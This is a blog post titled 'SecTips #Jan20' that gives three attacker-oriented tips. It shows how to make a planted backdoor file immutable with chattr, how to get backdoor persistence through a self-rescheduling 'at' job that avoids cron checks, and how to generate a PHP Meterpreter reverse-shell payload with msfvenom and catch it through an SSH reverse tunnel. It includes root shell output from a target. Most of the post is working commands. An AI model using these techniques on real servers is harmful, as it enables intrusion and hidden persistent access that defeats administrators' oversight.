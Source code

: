 ```yaml
---
title: "SecTips #Jan20"
author: "Adam Jordan"
description: "Happy new year 2020! In this month's SecTips, I will give some tips about
how to create an unremovable file in UNIX,
how to use AT for backdoor persistence,
and how to listen to meterpreter with a laptop behind NAT."
tags: [security, sectips]
date: 2020-01-24
draft: false
---
```


> **About SecTips**

> This is a series in which I will write some tips related to security engineering.
> Instead of discussing heavy and long topics, I will present some _fun_ things in a concise walkthrough format.


Happy new year 2020! In this month's SecTips, I will give some tips about
how to create an unremovable file in UNIX,
how to use AT for backdoor persistence,
and how to listen to meterpreter with a laptop behind NAT.

1. [Unremovable Files in UNIX](#tips1)
2. [Your Sysadmin knows CRON? Try using AT](#tips2)
3. [Listen to Meterpreter with your Laptop behind NAT](#tips3)



## TIPS-01: Unremovable Files in UNIX<a name="tips1"></a>

Let's say you have put your super malicious backdoor in a server, and you did not want anyone to remove this backdoor file. How to do this? Just make it immutable in file-system level _:v_

```bash
$ touch u-cant-rm-this

$ ls -l
total 0
-rw-r--r-- 1 root root 0 Mar 14 09:39 u-cant-rm-this

$ chattr +i u-cant-rm-this

$ ls -l
total 0
-rw-r--r-- 1 root root 0 Mar 14 09:39 u-cant-rm-this

$ rm u-cant-rm-this
rm: cannot remove 'u-cant-rm-this': Operation not permitted
```

---

## TIPS-02: Your Sysadmin knows CRON? Try using AT<a name="tips2"></a>

You want to make your backdoor persistence? One of the easiest thing is to just add it to cron.
However, let's face the truth: EVERYBODY knows cron!
Of course it will be the first place to check by your sysadmin, and your malicious backdoor will be gone as easily as you put it on the cron.

Try using `at`. Of course if someone knows it, it is also very easy to detect and remove,
but I'll bet there are far fewer people that knows that the command even exists.

```bash
$ echo "echo 1337 > /tmp/meh" > malicious.sh

$ at -f malicious.sh now + 1 minute
warning: commands will be executed using /bin/sh
Job 1 at Thu Mar 14 18:54:00 2019

$ atq
1 Thu Mar 14 18:54:00 2019 a user

# wait...

$ cat /tmp/meh
1337
```


But it only run once! What to do if you want to run this periodically?

Just add `at` command in your scripts...

```bash
$ echo "at -f malicious.sh now + 1 minute" >> malicious.sh
$ at -f malicious.sh now + 1 minute
```

---

## TIPS-03: Listen to Meterpreter with your Laptop behind NAT<a name="tips3"></a>

When you are targeting a server on the internet, sometimes you'd like to listen to an incoming reverse shell session (via Meterpreter).
In this case, you will need to setup the listener on a server with a public IP address.

However, let's imagine a situation where we don't want to run metasploit on our servers, maybe to keep the server clean.
What we want is to run the metasploit on our laptop, but _alas_, it did not have any front-facing public IP.

In this tips, I will show how to use our server as proxy to forward the reverse shell session from our target to our laptop sitting behind NAT.


```bash
# setup ssh tunnel
laptop:$ ssh -R 0.0.0.0:8080:127.0.0.1:1337 -NF user@proxy_server

# listen for meterpreter connection
laptop:$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set LHOST 127.0.0.1
msf5 exploit(multi/handler) > set LPORT 1337
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > exploit -j
```

Next let's generate payload and have our target execute it.

```bash
# generate payload
laptop:$ msfvenom -p php/meterpreter_reverse_tcp \
     LHOST=proxy_server \
     LPORT=8080 > payload

# move payload to target server
laptop:$ scp payload.php target:payload.php

# execute payload in target server
target:$ php payload.php
```

Then _boom_, the meterpreter is connected to your laptop.

```bash
msf5 exploit(multi/handler) >
[*] Meterpreter session 1 opened

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         meterpreter php/linux  root (0) @ f62342bbe4ce  127.0.0.1:1337 -> 127.0.0.1:51306 (127.0.0.1)

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 121 created.

whoami
root
```
